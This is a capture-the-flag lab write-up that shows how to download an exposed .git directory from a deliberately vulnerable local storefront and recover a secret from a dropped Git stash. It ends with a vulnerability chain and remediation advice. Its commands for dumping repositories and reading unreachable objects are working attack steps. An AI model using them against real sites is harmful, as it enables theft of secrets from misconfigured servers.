


The storefront was deployed by copying the developer's checkout to the server, `.git` directory included, and the web server lists directories. The history we can see is clean. The secret is in a stash that was dropped, which Git stops showing but keeps on disk.

## Table of contents

## Lab setup

From an empty directory:

```bash
npx create-oss-store oss-store
cd oss-store
npm start
```

Or with Docker (no Node.js required):

```bash
docker run -p 127.0.0.1:3000:3000 leogra/oss-oopssec-store
```

The app runs at `http://localhost:3000`.

## Discovery

### A build id in the footer

The footer prints the version next to a short hex string:

```
v2.23.0 · build 982676c
```

Seven hex characters is what an abbreviated Git commit looks like. A build id like this often comes from `git rev-parse --short HEAD` at deploy time, so the server was deployed from a Git checkout. The next question is whether that checkout came along with its `.git` directory.

### Checking for `/.git/`

Directory brute-forcers find it as well: SecLists' `Discovery/Web-Content/common.txt` contains `.git/HEAD`. Asking directly is faster:

```bash
curl http://localhost:3000/.git/HEAD
```

```
ref: refs/heads/main
```

That's the content of a real `HEAD` file. Open `http://localhost:3000/.git/` in a browser and you get an nginx-style directory listing: `COMMIT_EDITMSG`, `HEAD`, `config`, `description`, `index`, plus the `logs/`, `objects/` and `refs/` directories. Every file of the repository is one click away.



## Downloading the repository

Download it **outside** the OopsSec Store checkout, or any other Git repository. Dumping a `.git` into an existing working copy nests one repository inside another.

```bash
mkdir -p ~/loot && cd ~/loot
```

### With git-dumper

[git-dumper](https://github.com/arthaud/git-dumper) detects the listing and walks it recursively, so it also picks up objects that no branch points to. Install it in a virtualenv:

```bash
python3 -m venv venv
venv/bin/pip install git-dumper
venv/bin/git-dumper http://localhost:3000/ storefront
```

```
[-] Testing http://localhost:3000/.git/HEAD [200]
[-] Testing http://localhost:3000/.git/ [200]
[-] Fetching .git recursively
...
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 5 paths from the index
```

`Fetching .git recursively` is the line that matters. Without a listing, git-dumper falls back to guessing well-known paths and following the history from `HEAD`. Objects that nothing references are never found that way.

### With wget

Or, instead of git-dumper, with `wget`, still from `~/loot`:

```bash
wget -q -r -np -nH -e robots=off -R "index.html*" -P storefront http://localhost:3000/.git/
git -C storefront checkout .
```

`-P storefront` writes everything under `storefront/`, creating it if needed. `-np` keeps `wget` from climbing above `/.git/`, `-nH` drops the hostname directory, and `-R "index.html*"` throws away the saved listing pages. `git checkout .` restores the working tree from the index.

## Looking around

```bash
cd ~/loot/storefront
git log --oneline
```

```
982676c (HEAD -> main) Configure production build
535e60a Add storefront theme
50e81dd Initial commit
```

`982676c` is the build id from the footer. The README explains how the `.git` got onto the server:

```
## Deployment

    npm run build
    rsync -az ./ deploy@web-01:/var/www/storefront/
```

`rsync ./` copies everything, `.git` included. The `.gitignore` is the other interesting file:

```
node_modules/
.next/
.env
.env.local
```

`.env` and `.env.local` are ignored. `.env.production` is not, so a `git add .` would have picked it up. None of the three commits contains it, though, and the obvious places come up empty:

```bash
git log --all --oneline   # the same three commits
git stash list            # nothing
```

## Finding what Git forgot to forget

`git stash` saves your changes as commits, and `git stash drop` only deletes the reference to them (`refs/stash`). The commits stay in `objects/` as **unreachable** objects until `git gc` prunes them, and a deployment box rarely runs `gc`. Since the listing let us download every object, they came along.

`git fsck` checks the object database, and `--unreachable` lists everything that no ref, reflog or index entry points to:

```bash
LC_ALL=C git fsck --unreachable
```

```
unreachable commit c4274c174040cd4bdc6f75d0e5c217ad266f6400
unreachable tree eaacec3a3a3b454ccf6ee1d282bf6709e41cd59a
unreachable blob f13df47f48671eae64d2e75a7059a16faf1a1ee1
unreachable commit bb6588ebed0794e20ca1116eb182d17eb31cce5d
```

`LC_ALL=C` forces English output. `fsck` translates its messages, and the pipeline below relies on the SHA being the third word of each line.

Two orphan commits, one tree and one blob: that's the shape of a stash. A stash entry is a merge commit `W` ("WIP on main: …") whose parents are the `HEAD` at stash time and a commit `I` that records the index. The [git-stash documentation](https://git-scm.com/docs/git-stash) gives a recipe for finding dropped entries, which filters the unreachable commits down to merges with "WIP" in their message:

```bash
LC_ALL=C git fsck --unreachable | grep commit | cut -d' ' -f3 \
  | xargs git log --merges --no-walk --grep=WIP --oneline
```

```
c4274c1 WIP on main: 982676c Configure production build
```

## Reading the stash

Inspect the objects by hand with `git cat-file -p`, starting with the WIP commit:

```bash
git cat-file -p c4274c174040cd4bdc6f75d0e5c217ad266f6400
```

```
tree eaacec3a3a3b454ccf6ee1d282bf6709e41cd59a
parent 982676cec88d40050f881ad7bf8904b5c7893560
parent bb6588ebed0794e20ca1116eb182d17eb31cce5d
author Renoir Dessendre <renoir.dessendre@oss.com> 1768495690 +0100
committer Renoir Dessendre <renoir.dessendre@oss.com> 1768495690 +0100

WIP on main: 982676c Configure production build
```

Two parents: `HEAD` (`982676c`) and the index commit (`bb6588e`). Its tree is the working directory at stash time:

```bash
git cat-file -p eaacec3a3a3b454ccf6ee1d282bf6709e41cd59a
```

```
100644 blob f13df47f48671eae64d2e75a7059a16faf1a1ee1	.env.production
100644 blob 7e7ddd4653a9fb1d2bc31691e00baf9176b299dd	.gitignore
100644 blob e8128dfe15b9da1599a5c1a428a8bd9db62647be	README.md
100644 blob b9f289635e5ba1565ca7693a190a97b4eb643a29	next.config.js
100644 blob a1d9e7bca7b9a71f693306438dfe7e314e7fc45e	package.json
040000 tree 97cb4e9bc0c5401d470413c54f7069bc1457dd4c	theme
```

There's `.env.production`. Read its blob:

```bash
git cat-file -p f13df47f48671eae64d2e75a7059a16faf1a1ee1
```



The flag is `OSS{g1t_st4sh_n3v3r_f0rg3ts}`.

## Vulnerability chain

1. CWE-527: the deployment copies the working copy, `.git` included, into the web root.
2. CWE-548: the web server lists directories, which exposes every object, including the unreachable ones.
3. CWE-538: a production secret was committed to the object database through a stash, which `git stash drop` does not erase.

## Remediation

Deploy build artifacts, not checkouts. A CI artifact, a container image with `.git` in `.dockerignore`, or `rsync --exclude='.git'` at the very least.

Have the reverse proxy return 404 for any path segment that starts with a dot (keeping `/.well-known/` open), and leave `autoindex` off.

Rotate the token. Once it has been reachable under `/.git/`, it is public, and cleaning the repository afterwards does not change that.

To purge dropped stashes and other unreachable objects from a repository you keep, expire the reflog and prune without the grace period:

```bash
git reflog expire --expire-unreachable=now --all
git gc --prune=now
```

Finally, ignore environment files by pattern (`.env*` with a `!.env.example` exception) and run a secret scanner such as gitleaks as a pre-commit hook.
